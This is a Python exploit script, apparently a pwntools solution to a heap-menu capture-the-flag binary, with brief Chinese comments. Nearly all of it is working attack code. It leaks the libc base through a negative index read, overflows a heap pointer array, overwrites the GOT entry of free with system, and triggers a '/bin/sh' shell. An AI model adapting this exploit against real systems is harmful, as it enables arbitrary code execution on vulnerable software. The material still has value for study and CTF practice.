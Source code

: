 ```python

def add(size, con):
    sla(b'> ', b'1')
    sla(b'dream?', str(size).encode())
    sa(b'dream?', con)

def edt(idx, con):
    sla(b'> ', b'3')
    sla(b'change?', str(idx).encode())
    s(con[:6])

def shw(idx):
    sla(b'> ', b'2')
    sla(b'read?', str(idx).encode())


def rmv(idx):
    sla(b'> ', b'4')
    sla(b'delete?', str(idx).encode())


gscript = '''
    unhook-chunks
    b * 0x400b2d
    sq 0x00000000006020A0
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

heap_arr = 0x00000000006020A0
free_got = belf.got['free']

# 泄露libc
shw(-263021)
libc_base = ga() - libc.sym['puts']
success("libc base: " + hex(libc_base))

# heap_arr 溢出
for i in range(18):
    add(0x10, b'/bin/sh')
# size为0x602018
add(free_got, b'h')

edt(17, p64(libc_base + libc.sym['system']))
rmv(0)

pi()
pause()
```
